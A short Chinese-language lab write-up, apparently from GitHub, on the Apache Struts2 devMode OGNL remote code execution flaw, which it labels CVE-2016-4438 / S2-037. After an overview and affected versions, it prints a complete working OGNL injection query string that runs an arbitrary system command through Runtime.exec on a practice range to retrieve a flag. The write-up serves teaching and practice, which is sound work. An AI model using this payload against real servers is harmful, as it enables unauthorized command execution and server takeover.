



# Struts2-devMode命令执行（CVE-2016-4438） by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

漏洞概述：Apache Struts 2 是世界上最流行的 Java Web 服务器框架之一。Apache Struts2 在使用 REST 插件的情况下，攻击者使用 REST 调用恶意表达式可以远程执行代码。该漏洞编号为 CVE-2016-4438，目前命名为 S2-037。,黑客可以利用漏洞直接执行任意代码，绕过文件限制，上传文件，执行远程命令，控制服务器，直接盗取用户的所有资料，当 Struts2 开启 devMode 模式时，将导致严重远程代码执行漏洞。如果 WebService 启动权限为最高权限时，可远程执行任意命令，包括关机、建立新用户、以及删除服务器上所有文件等等。该漏洞广泛影响所有 struts 版本。

受影响的软件及系统：在开启 devMode 情况下，本漏洞可影响 Struts 2.1.0--2.5.1，通杀 Struts2 所有版本

启动靶场，随意点击一个测试页面

利用 POC 拿到 Flag

`?debug=browser&object=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=ls`

